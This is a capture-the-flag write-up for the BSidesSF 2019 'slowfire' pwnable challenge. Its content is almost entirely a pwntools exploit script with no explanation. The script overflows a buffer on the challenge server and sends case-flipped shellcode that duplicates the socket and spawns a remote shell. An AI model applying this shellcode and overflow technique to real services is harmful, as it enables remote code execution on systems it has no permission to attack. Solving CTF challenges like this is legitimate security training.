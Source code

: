 # **slowfire**

#### tag : pwnable, writeup, BSidesSF-2019-CTF

-----------------------------------------------

#### Description

>Can you pwn it?
>
>nc slowfire-74fa96b8.challenges.bsidessf.net 4141

-----------------------------------------------

#### Solution

```python
from pwn import *
#import shell

context(arch='amd64', os='linux')
r = remote('slowfire-74fa96b8.challenges.bsidessf.net', 4141)

# name's addr
bss = 0x4040c0

# let me execute stack
sh1 = asm(shellcraft.push('rsi'))
sh1 += asm(shellcraft.ret())

# duplicate sock level to standard io level
sh2 = asm(shellcraft.mov('rbp','rdi'))
sh2 += asm(shellcraft.dupsh())

# recover payload
sh2 = list(sh2)
for i in range(len(sh2)):
	if ( ord(sh2[i]) > 64 and ord(sh2[i]) <= 90 ) or ( ord(sh2[i]) > 96 and ord(sh2[i]) <= 122):
		sh2[i] = chr(ord(sh2[i]) ^ 0x20)
sh2 = ''.join(sh2)

# exploit
r.recvn(17)
r.send(sh1+'\x90'*(0x40-len(sh1)))
r.send(sh2+'a'*(1080-len(sh2))+p64(bss))
r.interactive()
```
